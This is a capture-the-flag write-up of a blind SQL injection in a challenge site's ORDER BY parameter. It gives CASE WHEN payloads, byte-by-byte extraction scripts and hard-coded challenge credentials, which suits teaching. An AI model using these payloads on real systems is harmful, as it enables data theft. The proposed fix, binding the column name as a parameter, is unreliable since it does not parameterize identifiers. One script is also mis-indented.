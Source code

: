 RMB
===

Overview
--------
For this challenge, we were presented with a website where we can consult the full lavish's collection, ordered by different parameters of the releases of this collection. We can also look through different Dj Sets.
The goal of this challenge was to look for a flag that would be written on an image related to one of the favorite releases of the owner.

Vulnerability
-------------
Although we were told in the introduction of the challenge that prepared statements were used whenever possible, we were able to find a vulnerability in the endpoint *_get_releases*, as the input was not being handled.
By looking through the source code available in *rmb.py*, we can see the following lines of the function *_get_releases*:

<pre><code>
    cur = query_handler('''
        SELECT * FROM releases
        ORDER BY {} ASC
        LIMIT 10 OFFSET %s
        '''.format(col), [page*10], cur)
</code></pre>

In this website, the queries are being executed by a cursor (*cur*). This mechanism allows for the variable only to be replaced after the query is processed. Therefore, we cannot inject code in a few variables, such as in page (as we can see after OFFSET).
However, it wasn't applied for *col* in the previous function, as it is replaced in the query before the query is processed. So we can place our attack here.

Exploitation
------------
I started the development of my exploitation by finding a way to explore the previously stated vulnerability. At first glance, it seems that we don't have more options than selecting the ones available in https://rmb.is.hackthe.space/. However, after looking through the code, we can see that we can add different types of input when using url structure as : *'/_get_releases/<col>/<int:page>' and '/_get_djset/<int:set_id>'*.
Here, we can write more than the inputs initially available and, taking advantage of the vulnerability, we can write our attack where the variable col is placed in the url.

By looking once again at the code, we can observe that the attack will be placed in the following query:
<pre><code>
    SELECT * FROM releases ORDER BY {} ASC LIMIT 10 OFFSET %s
</code></pre>

My code will be placed where "{}" are.
We could guess by the structure of the query previously presented, that we will not be able to present or show the output of the query we are developing. In other words, the HTTP responses do not contain the results of our SQL query. According to this, we will have to develop a blind sql injection, as we can make some changes to the webpage depending on the response to our query, however, we can see the output itself.

I started by trying to use different attacks, and simpler ones. For example, I verified if the table *releases* didn't have any hidden columns or lines, writing the queries such as:

<pre><code>
    (CASE WHEN (SELECT count(column_name) as Number FROM information_schema.columns WHERE table_name='releases')=7 THEN year ELSE id END)

    (CASE WHEN (SELECT COUNT(*) as Number FROM releases)=549 THEN year ELSE id END)
</code></pre>

where *<col>* is in the URL.
I also tried to find out the number of Base Tables that exist, to see if there were any other tables that I could be interested in. I started by trying to guess the amount of tables there are, and reduced the number guessed, until I ended up with 3.

<pre><code>
    (CASE WHEN (SELECT count(*) as Number FROM information_schema.tables WHERE table_type LIKE 'BASE TABLE')<100 THEN year ELSE id END)

    (CASE WHEN (SELECT count(*) as Number FROM information_schema.tables WHERE table_type LIKE 'BASE TABLE')=3 THEN year ELSE id END)
</code></pre>

I concluded that we can use a query with a similar structure to this one in a script, as I wanted to automate this process. The script I used is very similar to the one presented in Materials (https://is.hackthe.space/#/materials/web-server-side-security), however some adaptations were made.
In order to determine if a guess was correct, what changed was how the releases were ordered, and as a consequence there were releases that would appear as responses to my query. I noticed that the string "[{"artist":"Various Artists"" would only appear if the condition inside the query was false, so I used this string to determine if the condition was true or false.
I would run a cycle for each char in each position of the string I wanted to obtain, until I could obtain the all string.

<pre><code>
    BASE_URL = "https://rmb.is.hackthe.space/_get_releases/"

    QUERY_LAST_TABLE = "(CASE WHEN (SELECT MID(table_name,{pos},1) FROM information_schema.tables WHERE table_type = 'BASE TABLE' AND table_name NOT LIKE 'releases' AND table_name NOT LIKE 'sets')='{char}' THEN year ELSE id END)"

    QUERY_COL_NAME = "(CASE WHEN (SELECT MID(column_name,{pos},1) FROM information_schema.columns WHERE table_name = 'artworks' AND column_name NOT LIKE 'id' AND column_name NOT LIKE 'image')='{char}' THEN year ELSE id END)"

    QUERY_IMG_SIZE = "(CASE WHEN (SELECT BIT_LENGTH(image) FROM artworks WHERE release_id = 245)={char} THEN year ELSE id END)"

    SUCCESS_MSG = "[{\"artist\":\"Various Artists\""

    def oracle(s, c, pos):
        FINAL_URL = BASE_URL+QUERY_COL_NAME.format(char=c, pos=pos)+"/0"
        r = s.get(FINAL_URL)
        return not(SUCCESS_MSG in r.text)

    def main():
        if len(sys.argv) != 2:
            sys.stderr.write('Usage: {} <position>\n'.format(sys.argv[0]))
            sys.exit(1)
    
            chars = string.ascii_letters + string.digits # printable#+ string.punctuation
            s = requests.Session()
            s.auth = ('rmb','kLMxMo8anaMRX1V9')
            for guess in chars:
                if oracle(s, guess, int(sys.argv[1])):
                print(guess)
                break

    if __name__ == '__main__':
        main()

</code></pre>

To run the previous script the command "for i in {1..100}; do ./rmb_script.py "${i}" | tr -d '\n'; done; echo" was used.

I coded different sql queries to find different information. First, I used the query *QUERY_LAST_TABLE*, to find out the name of the third base table, which was *artworks*. Additionally, I found the name of its different columns: *id*, *release_id* and *image*.
We now know, where is the PNG blob we are looking for, we just need to know the id of the release it is related to.
In the intro of the challenge we are told "dump the sleeve of one particular release he's really in love with. Flag is in the PNG blob". So, we need to find out what lavish's favorite release is. By looking through the DJ Sets there is a set called "Me Mix", in the end of that set it is written: "Apollo Two - Atlantis (I Need You) LTJ Bukem Remix (GLR 003) <- so much in love with this".

Looking through the url *https://rmb.is.hackthe.space/_get_releases/title/0*, in other words, looking through the releases order by title, in page two we can find the release previously mentioned, and see that it's id is "245".

We can now write the following query:
<pre><code>
    (CASE WHEN (SELECT CONV(HEX(SUBSTRING(image,{pos},1)),16,10) FROM artworks WHERE release_id = 245)={byte} THEN year ELSE id END)
</code></pre>

This query will allow us to read byte by byte the blob stored in *artworks* associated with *released_id* equal to 245. We will be able to transform each hexadecimal value to its equivalent decimal value and compare it with different decimal values until we find a match. We would later transform this decimal value to hexadecimal and write in a file. All this steps are coded in the following script:
<pre><code>

    BASE_URL = "https://rmb.is.hackthe.space/_get_releases/"

    QUERY_IMG = "(CASE WHEN (SELECT CONV(HEX(SUBSTRING(image,{pos},1)),16,10) FROM artworks WHERE release_id = 245)={byte} THEN year ELSE id END)"

    SUCCESS_MSG = "[{\"artist\":\"Various Artists\""

    def oracle(s, b, pos):
        FINAL_URL = BASE_URL+QUERY_IMG.format(byte=b, pos=pos)+"/0"
        #print(FINAL_URL)
        r = s.get(FINAL_URL)
        return not(SUCCESS_MSG in r.text)

    def main():
        f = open("blob.png","ab")
    
        all_combination = []
        for i in range(0,256):  
            all_combination.append(i)
    
        s = requests.Session()
        s.auth = ('rmb','kLMxMo8anaMRX1V9')
        print("start")
        for guess in all_combination:
            if oracle(s, guess, int(sys.argv[1])):
                print(str(guess)+" ")
                f.write((guess).to_bytes(1, byteorder='big', signed=False))
                break
    
    if __name__ == '__main__':
        main()

</code></pre>

The output of this last script was an image where we could find the flag.

Solution
--------
As I stated previously, the vulnerability of this webserver is an input validation vulnerability, in other words, the input of the user is not being handled. In order to correct this vulnerability, we can take advantage of the structure already used for other variables in this code. We can use the cursor to our advantage. The changes required would include:
<pre><code>
    cur = query_handler('''
        SELECT * FROM releases
        ORDER BY %s ASC
        LIMIT 10 OFFSET %s
        ''', [col, page*10], cur)
</code></pre>

This small change would allow possible code to be inputed to be handled not like code but as a string. Preventing code injection.
